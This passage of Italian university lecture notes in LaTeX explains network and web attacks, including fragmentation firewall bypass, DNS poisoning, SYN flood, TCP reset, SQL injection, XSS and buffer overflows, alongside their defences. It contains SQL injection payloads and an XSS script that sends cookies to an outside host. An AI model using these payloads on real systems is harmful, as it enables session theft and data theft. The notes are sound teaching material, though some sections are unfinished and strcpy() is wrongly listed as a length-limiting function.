					\item Si spezza il pacchetto IP includendo nel primo frammento tutto l'header IP e una prima parte dell'header TCP (sequence number). Il secondo frammento inizia dal campo di ACK fino alla fine del payload.
					\item Il primo frammento viene passato, anche se indirizzato a una porta maggiore di 1024, dal firewall poichè non contiene il flag TCP. Il secondo non viene interpretato come pacchetto TCP poichè non ha un header TCP ben formato e dunque viene anch'esso fatto passare.
					\item Quando il pacchetto è riassemblato ha un header TCP valido con SYN = 1 diretto ad una porta maggiore di 1024 (\textbf{Ha già superato il firewall}).
				\end{itemize}
				Alcuni firewall aspettano di ricomporre il pacchetto prima di decidere se filtrarlo o meno, contravvenendo però allo standard vigente.\\
				Un altro attacco che sfrutta questa vulnerabilità di IP è il \textbf{Overlapping fragments attack}: 
				\begin{itemize}
					\item Il primo frammento viene indirizzato ad una porta >1024 ma ha il campo SYN=0 dunque viene fatto passare.
					\item Il secondo frammento non contiene un header TCP valido quindi non viene filtrato ma va a riscrivere una parte dell'header TCP: in particolare cambia il campo SYN =1.
					\item i due pacchetti vengono ricomposti.
				\end{itemize}
			\subsubsection{Attacchi al DNS}
				\textbf{Il DNS (Domain Name System) risolve indirizzi alfanumerici in indirizzi IP.} Per ogni dominio di rete esiste un server DNS che può fare tale traduzione in modo \textit{autoritative}. L'indirizzo del server DNS \textit{autoritative} non è noto per ogni dominio a priori, dunque ogni Host è configurato per interagire in primo luogo con un server DNS \textbf{locale}. Sarà dunque il DNS locale a contattare dei \textbf{root server} per ottenere gli indirizzi dei server DNS validi per tradurre l'indirizzo alfanumerico di un dato dominio. Una volta realizzata la traduzione (associazione) il DNS locale la tiene in \textbf{cache} per un certo periodo.\\
				In generale un \textbf{attacco al DNS} serve a far credere che l'IP inviato dall'attaccante derivi dalla traduzione lecita dell'indirizzo alfanumerico nel relativo IP. \textbf{Questa possibilità trova terreno fertile nel fatto che il protocollo DNS non utilizza cifratura per i suoi pacchetti}, introducendo la possibilità di falsificarne le risposte. Un attacco di questo tipo può essere utilizzato per:
				\begin{itemize}
					\item Phishing
					\item Furto di credenziali
					\item attacchi su Home banking 
					\item redirezione di connessione e MITM in generale
				\end{itemize} 
				Questi attacchi possono essere realizzati:
				\begin{itemize}
					\item Nella rete locale
					\item Nella richiesta da/verso il server DNS locale
					\item Nella richiesta da/verso DNS authoritative
				\end{itemize}
				\textbf{Al livello II} si possono fare attacchi MITM (arp-sppoofing per reti ethernet, attacchi su chiavi WEP per wifi). \textbf{Lo stesso principio può essere utilizzato} per:
				\begin{itemize}
					\item \textbf{DHCP}: assegnando ad un nodo della rete  un nuovo indirizzo del server DHCP controllato dall'attaccante
					\item DNS responses: modificando i pacchetti che arrivano dal serve DNS. 				
				\end{itemize} 
				Per un attacco DNS responses \textbf{lo scopo dell'attaccante è quello di riuscire ad inquinare la cache del server DNS locale, ovvero di rispondere al posto del server DNS remoto}. Se l'attaccante si trova \textbf{nel path tra il server DNS e l'host } l'attacco è banale. Altrimenti l'attaccante deve rispondere prima del server DNS remoto. \\
				Prima di vedere i dettagli sul funzionamento di questo tipo di attacco (\textbf{al livello III}) ricordiamo quali sono i campi "interessanti" di un pacchetto DNS:
				\begin{itemize}
					\item La porta UDP di origine e destinazione
					\item l'IP  di origine e destinazione
					\item L'ID del pacchetto, ovvero un numero scelto a caso da chi invia la richiesta che deve essere replicato nella risposta.	
				\end{itemize}
				Per realizzare l'attacco, l'attaccante deve rispondere con un \textbf{pacchetto DNS forgiato} con le caratteristiche giuste:
				\begin{enumerate}
					\item L'indirizzo IP sorgente che è quello del server remoto (\textbf{prevedibile})
					\item La porta UDP sorgente del server remoto (53)
					\item L'indirizzo IP di destinazione (\textbf{prevedibile})
					\item La porta UDP di destinazione ovvero quella usata dal server DNS locale per inviare la richiesta 16 bit(\textbf{non prevedibile?})
					\item L'ID del pacchetto di richiesta 16 bit(\textbf{non prevedibile!})
				\end{enumerate}
				Abbiamo dunque due campi di 16 bit che potrebbero essere imprevedibili per un attaccante. Le possibilità sono dunque:
				$$32bit \rightarrow 2^{32} possibilità$$
				L'attaccante ammesso che sappia il momento esatto per rispondere, deve inviare prima del server remoto mediamente 2 miliardi di pacchetti. Se ogni pacchetto è pesante 80 byte l'attaccante deve mandare 160GB di traffico prima che il server remoto possa rispondere.	\\
				Tuttavia \textbf{alcuni server DNS non utilizzano una porta casuale per inviare le richieste} ma fa un BIND all'avvio per scegliere la porta e continua ad usarla. Conoscendo tale porta abbiamo comunque $65000*80 = 5MB$ da inviare in poche decine di millisecondi.\\
				Possiamo provare a \textbf{restringere le ipotesi}: 
				\begin{itemize}
					\item Immaginiamo che E possa far iniziare la richiesta al server locale di A (stando dentro la rete oppure nel caso in cui il DNS locale di A accetti richieste dall'esterno).
					\item In questo modo l'attaccante sa quando avverrà la richiesta e quindi anche la finestra utile per rispondere al posto del DNS authoritative.
					\begin{enumerate}
						\item Eve invia ad Alice una richiesta per il dominio www.example.com
						\item Alice invia la richiesta al server DNS di www.example.com (B)
						\item Eve prova a rispondere prima di B con un flood di n risposte fasulle
					\end{enumerate}
				\end{itemize}
				In questo modo ha probabilità $n/2^{16}$ di riuscire, ammesso che il server DNS riesca ad elaborare tutte le richieste forgiate.\\
				
				Il valore probabilistico di $n/2^16$ è ottenuto grazie all'applicazione del \textbf{paradosso del compleanno}:
				\begin{itemize}
					\item qual'è la probabilità P(n) che tra le persone in una stanza ce ne siano due nate lo stesso giorno ? Utilizziamo la \textbf{probabilità inversa}.
					\item $\bar{P(n)}$ = probabilità che nessuna persona sia nata nello stesso giorno.
					\item $\bar{P(n)}$ = $\frac{364}{365}*\frac{363}{365}*...* \frac{365-(n-1)}{365}*  $
					\item con $\frac{364}{365}$ probabilità che 2 persone non siano nate nello stesso giorno e $\frac{363}{365}$ probabilità che 3 persone non siano nate nello stesso girno.
					\item Volendo ricavare però la probabilità P(n) dobbiamo svolgere:
					$$1-\bar{P(n)} = 1- \prod_{i=1}^{n-1} \frac{365-i}{365} $$
				\end{itemize}
				
				\textbf{In conclusione} possiamo dire che:
				\begin{itemize}
					\item Fare il poisoning di un server DNS è possibile ma \textbf{molto difficile}
					\item Sotto opportune ipotesi l'attacco è realizzabile con mezzi a disposizione di chiunque.
					\item L'attacco è più facile se il server authoritative (B) è sotto attacco DoS e dunque non risponde prontamente.
					\item Per evitare che l'attacco sia applicabile è importante scegliere bene gli applicativi che si usano, avendo la certezza, ad esempio, che utilizzino porte casuali.
				\end{itemize}
		\subsection{Attacchi al livello di trasporto o superiori}
			\begin{itemize}
				\item\textbf{ Attacchi a livello di trasporto}:
				\begin{itemize}
					\item DoS: Syn flood, TCP reset guess
					\item SYN spoofing
				\end{itemize}
				\item \textbf{Attacchi al \textit{middleware}}
				\begin{itemize}
					\item cross site splitting
					\item SQL injection, problemi di programmazione di perl,php,python
				\end{itemize}
				\item \textbf{attacchi ai protocolli superiori}
				\begin{itemize}
					\item problemi di sicurezza di tutti i protocolli che non utilizzano crittografia (HTTP, TELNET, POP3)
					\item DNS spoofing
				\end{itemize}
			\end{itemize}	
			\subsubsection{Attacchi livello IV: Syn flood}
				Si basa sul funzionamento del \textbf{three way handshake}: ogni qualvolta un server riceve un pacchetto con SYN=1 alloca delle risorse di memoria per gestire la connessione che sta per essere creata, quindi fa partire un pacchetto di risposta con SYN=1 e ACK=1 e aspetta per un timeout la risposta dal client e aprire la connessione. \textbf{In quel momento il server ha una connessione half open}. L'attaccante invia un gran numero di pacchetti con SYN=1 da indirizzi IP falsi, prima o poi \textbf{la memoria del server si saturerà e il server comincerà a scartare i pacchetti} (DoS). In questo modo si impedisce ad altre macchine di accedere al servizio.\\
				Un possibile rimedio ad un attacco di questo tipo è l'utilizzo dei \textbf{Syn cookies}:
				\begin{itemize}
					\item quando si invia un pacchetto SYN=1 e ACK=1 (risposta del server al primo syn di richiesta) non si sceglie un numero casuale ma un numero che è una codifica di informazioni riguardanti la connessione. \textbf{In questo modo non viene allocata nessuna memoria.}
					\item Una volta ricevuto il terzo messaggio, esso contiene l'ACK inviato da cui si riestraggono le informazioni codificate. Si apre dunque la connessione
					\item Il numero di sequenza deve essere comunque \textbf{impredicibile}, altrimenti si rischiano attacchi di \textbf{syn spoofing}. Abbiamo bisogno di uno stato interno (un contatore) dello stack 
				\end{itemize}
			\subsubsection{Attacchi livello IV: TCP reset Guess}
				Questo attacco si basa sulla possibilità di poter interrompere una connessione TCP inviando un pacchetto con campo RST=1. Poichè un pacchetto del genere venga accettato il pacchetto deve contenere i valori corretti di:
				\begin{itemize}
					\item Indirizzo IP del mittente
					\item Porta TCP mittente e destinazione
					\item Numero di sequenza corretto all'interno del flusso
				\end{itemize}
				Un attaccante che volesse interrompere una connessione TCP dovrebbe conoscere gli indirizzi IP, può indovinare le porte (una è nota l'altra è predicibile), \textbf{tuttavia non può conoscere il numero di sequenza corretto: deve provare \textit{brute force}.}\\
				Il numero di sequenza è un \textbf{campo a 32 bit} quindi $2^{32}$ numeri da tentare (con un modem a 32k ci vogliono 284 giorni). Tuttavia il protocollo TCP impone che per essere ricevuto un pacchetto di reset debba \textbf{semplicemente cascare nella finestra di numeri di sequenza che la macchina mantiene attivi}. La finestra può essere larga fino a $2^{16} bit$. Non abbiamo bisogno di tentare tutti i numeri di sequenza ma ci basta provare numeri di sequenza non più distanti di $2^{16}$.
				$$2^{32}/2^{16} = 2^{16} = 65,535 cifre \rightarrow 6 minuti$$
				
				\textit{Tempi TCP Reset \ref{fig:29}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/tempi.PNG}
					\caption{Tempi TCP Reset \label{fig:29}}
				\end{figure}\\
				
		\subsection{Attacchi al middleware}
			Per \textit{middleware} si intende tutto quel codice che sta nel mezzo tra la richiesta che fa un browser e la presentazione di una pagina HTML di risposta. CGI scritti in qualsiasi linguaggio, script PHP, Python, Ruby, sono tutti esempi di middleware.\\
			La maggior parte degli \textbf{attacchi} hanno a che vedere con la \textbf{data validation}, ovvero tutte quelle tecniche che un programmatore dovrebbe utilizzare per evitare che un utente possa inserire nelle chiamate HTTP dati estranei a quelli desiderati. 
			\subsubsection{SQL Injection}
				Applicabile nel contesto di script PHP ecc viene utilizzato per eseguire query su database. \\
				
				\textit{SQL Injection \ref{fig:30}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/sqltable.PNG}
					\caption{SQL Injection \label{fig:30}}
				\end{figure}\\
				
				\begin{itemize}
					\item SELECT secret FROM userdb WHERE user =’$user’ AND password =’$password’\\
					Se $user=Alice e $password=123 la query diventa:\\
					SELECT secret FROM userdb WHERE user=’Alice’ AND password =’123’
					\item Se si utilizzano
					user=Alice
					password=’\\
					la query diventa:\\
					SELECT secret FROM userdb WHERE user =’Alice’ AND password =”’\\
					MySQL trova un ' di troppo e segnala un errore perrchè non riesce ad interpretare il resto della stringa. \textbf{questo errore può essere sfruttato}.
					\item Se si utilizzano
					user=Alice
					password=’ OR user=’Alice\\
					la query diventa:\\ SELECT secret FROM userdb WHERE user =’Alice’
					AND password =” OR user=’Alice’\\
					La stringa è corretta e significa: \textbf{restituisci dalla tabella la colonna per cui
					(user=Alice e password=”) oppure user=Alice.\\
					Il risultato è che la prima parte della query fallisce ma la seconda parte
					restituisce il contenuto della colonna secret senza controllare la password}
				\end{itemize}
				Nell'esempio precedente era necessario conoscere la composizione di tutta la query, \textbf{che non è sempre nota}:
				\begin{itemize}
					\item utilizzando il commento - è possbile escludere delle parti della query di cui non si conosce il contenuto\\
					user=Alice';-\\
					la query diventa:\\
					select secret from userdb where user =’Alice’; – and password =”
					\item tutta la parte dopo - non viene considerata.
				\end{itemize}
				Se ci sono altre tabelle nel DB possiamo utilizzare query piu complicate per accedere anche a queste. Sapendo l'esistenza di una tabella come questa:\\
				
				\textit{Esempio tabella SQL-Injection \ref{fig:31}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/table.PNG}
					\caption{Esempio tabella SQL-Injection \label{fig:31}}
				\end{figure}\\
				
				\begin{itemize}
					\item utilizzando il comando UNION si possono fare query su tabelle diverse:\\
					user=’ union select value from houses where owner=Alice; – \\
					la query diventa:\\
					select secret from userdb where user =” union select value from houses
					where owner=Alice; –
					\item \textbf{la prima parte della query fallisce ma la seconda va a fare una richiesta su una seconda tabella, che restituisce informazioni}
				\end{itemize}
				
				Come posso sapere se \textbf{ci sono altre tabelle?}. Facendo le query giuste:\\
				
				\textit{Esempio Query SQL-Injection 1 \ref{fig:32}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/query.PNG}
					\caption{Esempio Query SQL-Injection 1 \label{fig:32}}
				\end{figure}\\
				
				\textbf{Come possiamo impedire attacchi di SQL injection?} Le versioni più vecchie dei webserver non fanno nessun parsing sulle stringhe che si inseriscono nelle query. Oggi possiamo inserire controlli:
				\begin{itemize}
					\item lista caratteri vulnerabili
					\item Utilizzare query già preparate
				\end{itemize}
						
				\textit{Esempio Query SQL-Injection 2 \ref{fig:33}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/vulnerable.PNG}
					\caption{Esempio Query SQL-Injection 2 \label{fig:33}}
				\end{figure}\\
			
				\textit{Esempio Query SQL-Injection 3 \ref{fig:34}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/prepared.PNG}
					\caption{Esempio Query SQL-Injection 3 \label{fig:34}}
				\end{figure}\\
				
			\subsubsection{Cross-site-scripting (XSS) stored }
				Un attacco XSS è basato sulla possibilità di \textbf{inserire del codice malizioso all'interno di pagine web esterne}, in modo tale che gli utenti che si collegano a tali pagine sono indotti ad eseguirlo.
				L'attacco può essere:
				\begin{itemize}
					\item \textbf{stored }: il codice persiste nella pagina web
					\item \textbf{reflected}: il codice viene visualizzato in una messaggio temporaneo di errore
				\end{itemize}	
				La conseguenza è che l'utente si collega ad una pagina web di cui si fida ma riceve del codice malevole che viene eseguito \textbf{in locale sul suo browser}. L'attaccante cercherà di inserire codice eseguibile all'interno del codice HTML.\\
				Ricordiamo il funzionamento dei cookies:
				\begin{itemize}
					\item HTML è \textit{stateless} ovvero non si conservano informazioni relative ad una connessione, ognuna di queste è scorrelata dalla precedente.
					\item Per evitare di reinserire utente e pass ad ogni connessione si utilizzano i cookies.
					\item è un'informazione che il server invia al browser dopo la prima connessione e che il browser reinvia al server ad ogni azione
					\item In questo modo il server riconosce il browser e gli permette di saltare le autenticazioni per il tempo di validità dei cookies.
				\end{itemize}
				\textbf{Senza efficace validazione degli input} un attaccante può inserire degli script in javascript all'interno di uno script di echo (scritto per esempio in php) per \textbf{inviare il cookie dell'utente invece che al sito di destinazione ad un sito dell'attaccante}.\\
				<script>window.open(’http://google.it?
				cookie=’+document.cookie)</script>\\
				Una possibile \textbf{applicazione} potrebbe riguardare siti nei quali è possibile inserire commenti, se la validazione degli input non è fatta in modo oculato un attaccante può aggiungere codice javascript alla pagina.  \textbf{Tutte le persone che successivamente caricheranno quella pagina eseguiranno il codice lasciato nel commento.} Se il sito gestisce dei cookie è questi ultimi sono \textbf{reindirizzati verso l'attaccante, che li può utilizzare per accedere ai servizi con l'identità di un utente del sito di partenza}.
			\subsubsection{Cross-site-scripting (XSS) reflected: AJAX}
				Si posso fare attacchi simili (codice eseguito a seguito di un messaggio di errore) sfruttando:
				\begin{itemize}
					\item Link HTML all'interno delle mail
					\item errori prodotti da web server mail configurati (404)
				\end{itemize}
				Vediamo attacchi relativi alla tecnologia \textbf{AJAX} (Asynchronous JavaScript and XML). Si tratta di un \textbf{paradigma per la programmazione online} che lega un qualsiasi linguaggio di backend con lo scopo di realizzare un'interazione \textbf{asincrona} tra client e server. In questo modo la pagina reagisce in tempo reale alle azioni dell'utente (gmail, facebook). \textbf{Ajax non è una nuova tecnologia ma una composizione di tecnologie esistenti, con gli stessi problemi di quest'ultime, ma con una piu complessa gestione della sicurezza}. \\ 
								
				\textit{Classic WEB application Model \ref{fig:35}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/web.PNG}
					\caption{Classic WEB application Model \label{fig:35}}
				\end{figure}\\
				
				\textit{AJAX WEB application Model \ref{fig:36}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/ajax.PNG}
					\caption{AJAX WEB application Model \label{fig:36}}
				\end{figure}\\
				
				I principali \textbf{pericoli} di AJAX sono:
				\begin{itemize}
					\item \textbf{Controlli client-side:} i controlli di sicurezza non devono essere implementati client-side (manipolabili da un'attaccante), ma server side ( esempio comntrollo di una password.) Il paradigma porta a demandare azioni all'applicazione client, ma deve essere utilizzato in modo cauto.
					\item \textbf{Cache client-side}: AJAX salva in locale molti dati relativi alla sessione, attenzione ai programmi che possono manipolare questi dati.
					\item \textbf{Mashups}: il web è fatto da integrazioni di prodotti dagli utenti e da terze parti, aggregate in un'unica pagina. Si aggregano dunque servizi che provengono da indirizzi IP differenti. \textbf{Diviene molto difficile tracciare tutte le sorgenti che contribuiscono ad una stessa pagina e filtrarle in modo da non avere applicazioni non previste. (XSS)}  
				\end{itemize}
		\subsection{Attacchi livello applicazione}
			\begin{itemize}
				\item \textbf{Attacchi da remoto}:
				\begin{itemize}
					\item \textbf{Buffer overflow}
					\item \textbf{format bug}				
				\end{itemize}
				\item \textbf{Attacco locale di privilege escalation}:
				\begin{itemize}
					\item \textbf{race condition}
					\item \textbf{problemi delle system call (system())}
				\end{itemize}
			\end{itemize}
			\subsubsection{Buffer overflow}
				I buffer overflow sono vulnerabilità causate da errori di programmazione nei linguaggi a basso livello e sono la causa maggiore di intrusione. Lo scopo è quello di sfruttare questa vulnerabilità in modo tale che l'attaccante possa eseguire del codice, comandi, che altrimenti non protrebbe eseguire sulla macchina remota.\\
				
				\textit{Esempio Buffer Overflow 1\ref{fig:37}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.90]{img/c.PNG}
					\caption{Esempio Buffer Overflow 1 \label{fig:37}}
				\end{figure}\\
				
				La funzione \textbf{stampa()} viene allocata in uno spazio di indirizzi diverso dalla funzione \textbf{main()}. Quando stampa() è conclusa bisogna di nuovo fare una jump alla locazione di memoria dove si trova la funzione main().\\
				
				\textit{Esempio Buffer Overflow 2 \ref{fig:38}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.90]{img/stack.PNG}
					\caption{Esempio Buffer Overflow 2\label{fig:38}}
				\end{figure}\\
				
				I passaggi di parametri avvengono mettendo le variabili in una zona comune, lo stack. In questo caso nello stack abbiamo:
				\begin{itemize}
					\item L'indirizzo di ritorno a cui stampa deve saltare per tornare a main()
					\item la variabile parola 
					\item la variabile testo della funzione stampa.
				\end{itemize}
				Si ha in questo caso un problema derivante dal mancato controllo sulla lunghezza del testo contenuto nella variabile parola (dovrebbe essere lunga meno di 10 char). Se il contenuto di tale variabile fosse maggiore dello spazio assegnato essa andrebbe a sovrascrivere zone adiacenti dello stack, provocando un \textbf{segmentation fault}.
				\begin{itemize}
					\item le variabili dello stack vengono scritte dal basso verso l'alto, ma all'interno della variabile dall'alto verso il basso.
					\item Si può sovrascrivere anche \textbf{l'indirizzo di ritorno.}
				\end{itemize}
				
				\textit{Esempio Buffer Overflow 3 \ref{fig:39}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.90]{img/stack2.PNG}
					\caption{Esempio Buffer Overflow 3 \label{fig:39}}
				\end{figure}\\
				
				L'attaccante può dunque:
				\begin{itemize}
					\item scrivere del codice eseguibile all'interno della variabile testo 
					\item far puntare l'indirizzo di ritorno a quel codice
					\item In questo modo quando stampa() finisce viene fatto un jump verso l'indirizzo di ritorno modificato.
					\item Come risultato si esegue del codice deciso dall'attaccante prima del crash del programma.
				\end{itemize}
				\textbf{Come proteggersi da buffer overflow ?}:
				\begin{itemize}
					\item Controllare sempre l'input che arriva dall'esterno (utente,file, variabili d'ambiente) 
					\item Utilizzare funzioni che limitano la lunghezza della scrittura (strncpy(),strcpy()).
					\item  Linux permette di rendere lo stack non eseguibile
					\item Esistono compilatori e debugger appositi per evitare BO.
				\end{itemize}
			
				MANCA BUONE PRATICHE (SPIEGATA A LEZIONE???)\\
				
			\subsubsection{Format Bug}
				Si basa su un errore di programmazione molto comune che ha sempre a che vedere con la formattazione delle stringhe.
				
				\textit{Format Bug \ref{fig:format}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.70]{img/formatbug.PNG}
					\caption{Format Bug\label{fig:format}}
				\end{figure}\\
				La possibile vulnerabilità risiede nella definizione della \textbf{printf}
				\begin{itemize}
					\item definita come:  \textbf{int printf(const char *format, ...);.}
					\item Prende una sequenza di puntatori a char, di cui il primo parametro è il
					formato. Nel formato generalmente è scritto quanti e quali sono i
					parametri che seguono, ad esempio: \textbf{printf(”\%s”,”Hello World”);}
					\item La printf legge la stringa di formato, trova i simboli speciali che iniziano
					per \%, conta quanti e quali parametri seguono, li legge dallo stack, li
					sostituisce ai caratteri speciali e poi stampa la stringa di formato.
					\item \textbf{Se si lascia all’utente la possibilità di scrivere nella stringa di formato
					(invece che riempire i buchi usando gli speciali \%) si va incontro a
					problemi seri.}
					
					
					
					
				\end{itemize}
				COMPLETARE
	\section{Firewall}
		Un firewall è un apparato software o hardware configurato per \textbf{ammettere, abbattere o veicolare (proxy firewall)} connessioni tra due aree di rete con differenti livelli di fiducia. Come \textbf{esempio} si può citare un \textbf{firewall perimetrale}, posto su un getway per separare la rete locale(alto livello di fiducia) da internet (basso livello di fiducia).\\
		\textit{Possiamo dire che un firewall è un interfaccia configurabile tra due segmenti di rete con diversi livelli di fiducia}. Tale interfaccia deve essere configurata seguendo due principali \textbf{security poilicy}:
		\begin{itemize}
			\item \textbf{Least privilege}
			\item \textbf{Separation of Duties}
		\end{itemize}
		La configurazione di un firewall richiede profonda conoscenza dei protocolli di rete e di network security, un errore di configurazione \textbf{può renderne inutile l'utilizzo.}\\
		I firewall hanno avuto la seguente evoluzione nel tempo:
		\begin{enumerate}
			\item \textbf{Packet filter:} ogni pacchetto passa dentro il firewall e per ognuno di essi \textbf{si prende una decisione separata}. La scelta presa all'instante t non è condizionata dalla scelta presa all'istante precedente.
			\item \textbf{Stateful firewall}: si implementano nel firewall delle macchine a stati utilizzate per \textbf{prendere decisioni più articolate}. Ad esempio non accettare pacchetti TCP ACK se prima non si è ricevuto un pacchetto di SYN.
			\item \textbf{Application layer firewall}: Generalmente i firewall operano a livello di rete o, in casi specifici, di collegamento \textbf{poichè il formato dei pacchetti è già definito e non può essere modificato}. Gli application firewall \textbf{leggono le informazioni del payload del pacchetto} per decidere quali applicazioni possono passare. Hanno una maggiore complessità e dunque un maggiori requisiti in termini di risorse computazionali.
		\end{enumerate}
		\subsection{Posizionamento}
			Esistono due configurazioni tipiche per il posizionamento di un firewall.\\
			\textbf{La prima è quella che vede il firewall separare due segmenti di rete}:
			\begin{itemize}
				\item Rete interna: vi risiedono postazioni degli utenti, i server e i database. Deve essere protetto perchè contiene informazioni importanti per un'azienda (attività in genere).
				\item Rete esterna: una rete che è accessibile dall'esterno, su cui risiedono server we, di posta e di DNS, \textbf{a diretto contatto con internet} e dunque a maggiore rischio. Tuttavia nell'ottica di chi vede la rete da fuori questa rete esterna contiene dati accessibili dall'esterno e dunque di minore valore e con minori restrizioni di accesso (\textbf{DeMilitarized Zone})
			\end{itemize}
			
			\textit{Firewall: posizionamento 1 \ref{fig:40}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.50]{img/fire.PNG}
				\caption{Firewall: posizionamento 1\label{fig:40}}
			\end{figure}\\
			
			\textbf{La seconda configurazione prevede di aggiungere un ulteriore firewall in modo da avere due elementi di difesa prima di arrivare alla rete corporate.} La configurazione risulta più robusta perchè:
			\begin{itemize}
				\item Un attaccante deve bucare due firewall prima di arrivare alla rete corporate ( i firewall utilizzeranno software e hardware diversi per offrire ridondanza)
				\item la DMZ è separata anche dall'interno verso l'esterno con lo stesso principio
				\item è più facile separare il traffico, quindi tipi di connessione considerati meno sicuri si possono inserire nella DMZ
			\end{itemize}
			
			\textit{Firewall: posizionamento 2 \ref{fig:41}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.50]{img/fire2.PNG}
				\caption{Firewall: posizionamento 2\label{fig:41}}
			\end{figure}\\
			
		\subsection{Funzionamento}
			Per spiegare il funzionamento di un firewall introduciamo prima due strumenti per la gestione e il filtraggio di pacchetti in UNIX: \textbf{Netfliers} e \textbf{Iptable}.
			\begin{itemize}
				\item \textbf{Netfilters}: è il framework inserito in GNU/LINUX \textbf{che permette di effettuare il filtraggio dei pacchetti su un firewall software}. Lavora al livello del nucleo del sistema operativo (\textit{kernel space}). Mette a disposizione degli \textbf{hook} ovvero dei punti di aggancio che permettono di filtrare i pacchetti durante il loro percorso all'interno del firewall.
				\item \textbf{Iptables}: è uno strumento che permette di \textbf{configurare le regole di scarto.}
